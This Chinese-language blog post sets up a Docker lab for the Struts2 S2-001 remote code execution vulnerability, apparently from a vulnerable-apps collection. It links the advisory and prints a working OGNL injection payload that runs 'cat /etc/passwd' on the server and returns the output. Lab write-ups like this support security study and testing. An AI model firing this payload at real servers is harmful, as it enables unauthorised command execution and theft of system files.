 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-001)"
date: 2017-06-13 18:43:52 +0800
image: '/assets/img/'
description: 'Struts2 远程代码执行漏洞(S2-001)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-001)环境'
introduction: 'Struts2 远程代码执行漏洞(S2-001)环境'
---
```


<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>

### 漏洞信息

 * [S2-001 公告](http://struts.apache.org/docs/s2-001.html)
 
参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-001
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-001
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行(命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`)

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-001/S2-001-1.png)

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-001/S2-001-2.png)

### 其它

感谢 [@zerokeeper](https://github.com/zerokeeper) 贡献
